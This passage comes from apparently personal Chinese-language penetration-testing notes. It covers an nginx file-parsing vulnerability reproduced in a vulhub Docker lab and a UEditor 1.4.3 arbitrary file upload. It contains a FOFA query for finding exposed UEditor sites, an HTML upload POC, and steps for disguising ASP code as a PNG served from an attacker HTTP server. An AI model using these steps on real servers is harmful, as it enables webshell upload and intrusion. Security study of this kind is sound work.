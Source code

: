 上传了图片后面加上/.php乱码就有漏洞

```
 cd vulhub/nginx/nginx_parsing_vulnerability/
 docker-compose up -d
 docker-compose config
```

![image-20240423194537553](D:\Infiltration\笔记\note\图片\image-20240423194537553.png)

访问80端口,随意上传一个图片文件抓包，并在数据后面插入phpinfo,



![image-20240423200644980](D:\Infiltration\笔记\note\图片\image-20240423200644980.png)



在访问路径后面加上任意名字后缀为php的文件，phpinfo被成功解析

![image-20240427143140390](D:\Infiltration\笔记\note\图片\image-20240427143140390.png)

### UEditor任意文件上传

1.4.3

fofa语法

```
body="UE.getEditor('editor').setHide()"
```

访问路径显示以下内容就说明有漏洞

```
/ueditor/net/controller.ashx?action=catchimage
```

![image-20240423231907278](D:\Infiltration\笔记\note\图片\image-20240423231907278.png)

#### 

使用写好的POC修改host保存为html

```
<form action="http://host/ueditor/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 <p>输入web地址: <input type="text" name="source[]" /></p>
 <input type="submit" value="Submit" />
</form>
```

写入一段asp代码，保存为png

![image-20240423232252768](D:\Infiltration\笔记\note\图片\image-20240423232252768.png)

将1.png文件上传到vsp，并开启http服务

```
python3 -m http.server 1234
```
